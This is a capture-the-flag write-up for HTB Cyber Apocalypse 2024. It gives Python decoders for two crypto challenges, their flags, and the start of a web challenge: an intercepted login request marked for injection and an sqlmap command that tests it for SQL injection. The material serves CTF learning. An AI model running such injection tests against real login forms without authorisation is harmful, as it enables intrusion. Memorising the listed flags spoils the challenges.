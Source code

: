 # Cyber Apocalypse 2024: Hacker Royale Write-up

<img src="https://ctf.hackthebox.com/storage/ctf/banners/DREwio2TXADvSLScO07rux2olm6vjUoEXQPPAKBC.jpg" width="500" height="288">

## Crypto

### Task - Primary Knowledge

![image](https://github.com/zer00d4y/writeups/assets/128820441/c7a2c26a-40e2-448d-a40c-e71cf8661756)

Decoder

    import math
    from Crypto.Util.number import long_to_bytes
    
    def decrypt(c, n, e):
        phi = (n - 1) // 2
        d = pow(e, -1, phi)
        m = pow(c, d, n)
        return long_to_bytes(m)
    
    n = 144595784022187052238125262458232959109987136704231245881870735843030914418780422519197073054193003090872912033596512666042758783502695953159051463566278382720140120749528617388336646147072604310690631290350467553484062369903150007357049541933018919332888376075574412714397536728967816658337874664379646535347
    e = 65537
    c = 15114190905253542247495696649766224943647565245575793033722173362381895081574269185793855569028304967185492350704248662115269163914175084627211079781200695659317523835901228170250632843476020488370822347715086086989906717932813405479321939826364601353394090531331666739056025477042690259429336665430591623215
    
    decrypted_message = decrypt(c, n, e)
    print(decrypted_message)

FLAG:

    HTB{0h_d4mn_4ny7h1ng_r41s3d_t0_0_1s_1!!!}

### Task - Makeshift

![image](https://github.com/zer00d4y/writeups/assets/128820441/8775b769-6274-43c6-a9b5-6ec4cb68d384)

Decoder

    def decode_flag(encoded_flag):
        decoded_flag = ''
        for i in range(0, len(encoded_flag), 3):
            decoded_flag += encoded_flag[i+2]
            decoded_flag += encoded_flag[i]
            decoded_flag += encoded_flag[i+1]
        return decoded_flag[::-1]
    
    encoded_flag = "!?}De!e3d_5n_nipaOw_3eTR3bt4{_THB"
    decoded_flag = decode_flag(encoded_flag)
    print(decoded_flag)

FLAG:

    HTB{4_b3tTeR_w3apOn_i5_n3edeD!?!}

## WEB

### Task - KORP Terminal

We can see the web authentication interface.

![image](https://github.com/user-attachments/assets/550917ed-ef90-4685-914e-09a39ef3aa0a)

Try to login and intercept the request.

Request:

    POST / HTTP/1.1
    Host: localhost:1337
    Content-Length: 27
    Cache-Control: max-age=0
    sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
    sec-ch-ua-mobile: ?0
    sec-ch-ua-platform: "Linux"
    Upgrade-Insecure-Requests: 1
    Origin: http://localhost:1337
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: http://localhost:1337/
    Accept-Encoding: gzip, deflate, br
    Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
    Connection: close
    
    username=test*&password=test*

Now, we can save the request and test for sql injection.

### SQL-Map

`sqlmap -r request.txt --ignore-code 401`

